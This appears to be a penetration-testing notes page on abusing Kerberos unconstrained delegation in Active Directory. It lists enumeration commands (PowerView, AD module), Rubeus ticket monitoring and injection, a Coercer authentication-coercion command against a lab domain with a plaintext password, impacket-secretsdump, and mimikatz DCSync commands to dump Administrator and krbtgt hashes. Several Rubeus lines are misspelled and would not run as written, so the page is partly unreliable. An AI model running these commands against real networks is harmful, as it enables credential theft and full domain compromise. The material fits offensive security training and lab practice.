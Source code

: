 # Kerberos Unconstrained Delegation

## **Kerberos Unconstrained Delegation**

> General/Basic or Unconstrained Delegation which allows the first hop server (web server in our example) to request access to any service on any computer in the domain.

**Required**

1. Define Unconstrained Delegation Machines
2. we need to user who has Access to the machine

Essentially this looks like so: **`User`** --- authenticates to ---> **`IIS server`** ---> authenticates on behalf of the user ---> **`DB server`**

<figure><img src="../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

#### define Unconstrained Machines

{% code overflow="wrap" %}
```powershell
#using PowerView
Get-NetComputer -Unconstrained
Get-DomainComputer -UnConstrained
Get-DomainComputer -Unconstrained -Properties DnsHostName
Get-DomainComputer -unconstrained | select samaccountname
# using Import-Module ActiveDirectory 
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
Get-ADComputer -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
Get-ADComputer "IIS" -Properties TrustedForDelegation, TrustedToAuthForDelegation,msDS-AllowedToDelegateTo,PrincipalsAllowedToDelegateToAccount

```
{% endcode %}

{% hint style="info" %}
<mark style="color:orange;">**Hint**</mark>**: discover users that who you have WriteDACL permission on there or do Enumeration to get user**
{% endhint %}

Rubeus

{% embed url="https://github.com/r3motecontrol/Ghostpack-CompiledBinaries" %}

```powershell
.\Rubeus.exe ptt /tikcet: base64.exe  monitor /monitornterval:10 /targetuser$ /nowarp
.\Rubeus.exe ptt /tikcet: base64 
#OR
cat b64.txt|base64 -d > ticket.kirbi 
```

### Coercer

{% code overflow="wrap" %}
```bash
coerce -u arya.stark -d north.sevenkingdoms.local -p 'Needle' -t kingslanding.sevenkingdoms.local -l winterfell --always-continue

```
{% endcode %}

{% code overflow="wrap" %}
```bash
sudo impacket-secretsdump -k -no-pass SEVENKINGDOMS.LOCAL/'KINGSLANDING$'@KINGSLANDING
```
{% endcode %}

mimikatz

{% code overflow="wrap" %}
```powershell
mimikatz.exe "privilege::debug" "kerberos::ptt PDC.kirbi" "lsadump::dcsync /domain:hacktor.local /user:Administrator" "exit"
#Once the ticket is injected, run DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
{% endcode %}

